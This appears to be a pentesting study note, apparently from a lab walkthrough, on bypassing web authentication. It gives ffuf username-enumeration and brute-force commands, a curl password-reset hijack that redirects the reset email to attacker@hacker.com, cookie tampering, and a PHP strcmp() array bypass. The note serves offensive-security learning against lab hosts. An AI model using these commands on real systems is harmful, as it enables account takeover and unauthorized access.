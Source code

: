 # Authentication Bypass

## Username Enumeration

* Try a random username that probably does not exist, and then try one that probably exists, is there a different error?

```
jksaljkfl <- username that does not exist
admin <- username that probably exists
guest <- another potential username
```

* We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below
* The ffuf tool uses a list of commonly used usernames to check against for any matches.
* Capture the request in `Burp` to find the `Content-Type`, whether its a `GET` or `POST`

```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
```

* `-w` -> selects the file's location
* `-X` -> argument specifies the request method
* `-d` -> the data that we are going to send
* `FUZZ` -> keyword signifies where the contents from our wordlist will be inserted in the request
* `-H` -> for adding additional headers to the request
* `-u` -> specifies the URL we are making the request to
* `-mr` -> is the text on the page we are looking for to validate we've found a valid username

## Password Brute force attack

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
```

* Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword.
* `W1` -> for our valid list of usernames
* `W2` -> for the list of passwords we are going to try
* `-w` -> the multiple word lists are also specified with this flag
* `-fc` -> this argument check for an HTTP status code other than a 200

## Authentication Bypass Logic Flaw

* If a specific url is blocked without authentication like `/admin`, depending on the code you may be able to bypass it.
* Try:

```
/adMin
/aDmIn
```

### Finding password reset forms

* If there is an option always make an account. There could be pages you have access to that you otherwise would not.
* Also if there is a password reset option on the site you might be able to get their password reset link sent to you.
* Use curl to figure out how the parameters are passed to the server, in this example the username is a `POST` field and the email address is a `GET` field

```
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

* `-H` -> to add an additional header to the request. In this case we are setting the `Content-Type` to `application/x-www-form-urlencoded`
* Can find this out in burp, or set something ourselves
* The `PHP $_REQUEST` variable is an array that contains data received from the query string and POST data. - If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form
* We can control where the password reset email gets delivered.

```
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

* Now re-running the curl command we can alter where the reset link is sent

```
curl 'http://10.10.115.78/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

## Cookie Tampering

* Decode the stored cookies and see if you can manipulate them before making curl requests with the new tampered cookies.
* First, we'll start just by requesting the target page:

```
curl http://MACHINE_IP/cookie-test
```

* We can see we are returned a message of: Not Logged In
* Now we'll send another request with the logged\_in cookie set to true and the admin cookie set to false:

```
curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
```

* We are given the message: Logged In As A User
* Finally, we'll send one last request setting both the logged\_in and admin cookie to true:

```
curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
```

* This returns the result: Logged In As An Admin

### strcmp() PHP bypass

* If you are able to get access to some php course code that uses `strcmp()` for checking usernames and passwords, bypassing it can be trivial&#x20;

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>Example of php source code using strcmp()</p></figcaption></figure>

* By capturing the authentication in burp you can turn the username and or password field into an array, bypassing the authentication, in this instance we must do it for both the username and password fields.

<figure><img src="../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

* When submitting a normal request, we are informed that `'Wrong Username or Password'`
* However, once we change our parameters into an array value with the fields === 0, we login&#x20;

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

* `username[]=0&password[]=0`

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

